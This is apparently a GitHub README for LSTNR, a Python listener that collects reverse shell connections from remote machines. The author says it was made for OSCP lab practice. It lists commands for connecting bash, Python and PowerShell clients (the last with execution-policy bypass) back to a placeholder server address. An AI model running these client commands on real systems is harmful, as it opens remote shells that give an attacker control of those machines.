 # LSTNR
Python server that receives shell connections from remote devices. 

Remote devices can be managed from a Command Line Interface (CLI)

# DISCLAIMER
This is only for testing purposes, not intended for anything illegal. I was testing out ways to manage multiple connections while doing the OSCP labs. #Hobbies

# Download LSTNR

```git clone github.com/bwithe/LSNTR```

# USAGE

1. Start LSTNR
    - `python3 lstnr.py -p <PORT_TO_LISTEN>`
<img width="666" alt="Screenshot 2025-01-03 at 6 36 01 PM" src="https://github.com/user-attachments/assets/9f1a5adb-3981-42cb-9855-3d847ec16c53" />

2. Have CLIENT connect to LSTNR
    - Linux / MacOS
      - `bash client.sh -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
      - `python3 client.py -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`
     
    - Windows
        - `powershell -ep bypass .\client.ps1 -p <LSTNR_SERVER_PORT> -s <LSTNR_SERVER_IP>`

# Screenshot examples:

<img width="736" alt="Screenshot 2025-01-03 at 6 34 33 PM" src="https://github.com/user-attachments/assets/6dc676a0-4af2-4eb3-b3df-8ecd42e274dd" />
   
<img width="666" alt="Screenshot 2025-01-03 at 6 35 10 PM" src="https://github.com/user-attachments/assets/68d38103-f333-4525-9a56-f82b1b09c7cc" />
